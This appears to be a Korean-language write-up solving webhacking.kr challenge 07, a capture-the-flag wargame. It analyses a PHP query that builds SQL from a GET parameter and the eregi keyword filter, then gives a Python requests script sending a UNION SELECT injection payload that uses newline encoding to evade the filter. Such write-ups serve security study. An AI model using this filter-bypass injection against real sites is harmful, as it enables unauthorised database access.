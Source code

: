 ================================================================================================================
[webhacking.kr] 07
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="val='+'1)%0aunion%0aselect%0a3-1%23)",arrowhead="normal"];
        step3 -> step2[label="login success",arrowhead="normal"];
    }

|

server 소스 분석
================================================================================================================

- PHP
- GET 파라미터: val

.. code-block:: sql
    
    select lv from lv1 where 
    lv=($_GET[val])

|

union select 
================================================================================================================

- eregi로 필터링되는 함수를 제외하여 rand가 1일 때 실행할 수 있는 쿼리문을 작성해보자.
- eregi("--|2|50|\+|substring|from|infor|mation|lv|%20|=|!|<>|sysM|and|or|table|column",$ck)


.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-07/index.php?val='+'1)%0aunion%0aselect%0a3-1%23)"
    cookies = {
        "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6"
    }
    
    r = requests.get(url, cookies = cookies, verify=False)

    print r.content
